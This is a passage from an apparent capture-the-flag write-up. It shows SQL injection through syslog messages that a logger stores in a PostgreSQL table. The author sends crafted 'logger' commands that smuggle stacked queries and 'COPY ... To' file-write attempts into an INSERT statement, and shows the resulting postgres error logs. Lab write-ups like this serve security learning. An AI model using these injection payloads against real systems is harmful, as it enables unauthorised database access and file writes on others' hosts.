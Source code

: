 

The first one doesn't generate any error, but the second one does
because "notatable" does not exist:



    2019-09-01 13:54:43.680 EDT [15533] postgres@syslog ERROR:  relation "notatable" does not exist at character 95
    2019-09-01 13:54:43.680 EDT [15533] postgres@syslog STATEMENT:  INSERT INTO syslog_lines (message, devicereportedtime) values (' test\', null); select * from notatable; -- -','2019-09-01 17:54:43')
    2019-09-01 13:54:43.686 EDT [15537] postgres@syslog ERROR:  relation "notatable" does not exist at character 95
    2019-09-01 13:54:43.686 EDT [15537] postgres@syslog STATEMENT:  INSERT INTO syslog_lines (message, devicereportedtime) values (' test\', null); select * from notatable; -- -','2019-09-01 17:54:43')
    2019-09-01 13:54:43.691 EDT [15538] postgres@syslog WARNING:  there is no transaction in progress



So stacked queries are enabled.

The last thing I want to check is if I can write a file. I start with
this query:



    roy@zetta:/var/log/postgresql$ logger -p local7.info "sd',null); COPY (SELECT * from syslog_lines) To '/tmp/output.csv' With CSV;-- -"



But it returns an error:



    2019-09-01 14:03:21.069 EDT [15659] postgres@syslog ERROR:  syntax error at or near "\" at character 115
    2019-09-01 14:03:21.069 EDT [15659] postgres@syslog STATEMENT:  INSERT INTO syslog_lines (message, devicereportedtime) values (' sd\',null); COPY (SELECT * from syslog_lines) To \'/tmp/output.csv\' With CSV;-- -','2019-09-01 18:03:21')



The escaped quotes outside of `' '` are causing issues. I then tried
without `''` around the filename, but it errored as well. Some googling
for "postgres quote alternative" led me to the [Postgres Lexical
Structure](https://www.postgresql.org/docs/9.1/sql-syntax-lexical.md),
where I see that `$$` is an alternative for single quote. I try that:



    roy@zetta:/var/log/postgresql$ logger -p local7.info "sd',null); COPY (SELECT * from syslog_lines) To $$/tmp/output.csv$$ With CSV;-- -"



Another error:



    2019-09-01 14:07:05.018 EDT [15701] postgres@syslog ERROR:  syntax error at or near "14194" at character 115
    2019-09-01 14:07:05.018 EDT [15701] postgres@syslog STATEMENT:  INSERT INTO syslog_lines (message, devicereportedtime) values (' sd\',null); COPY (SELECT * from syslog_lines) To 14194/tmp/output.csv14194 With CSV;-- -','2019-09-01 18:07:05')

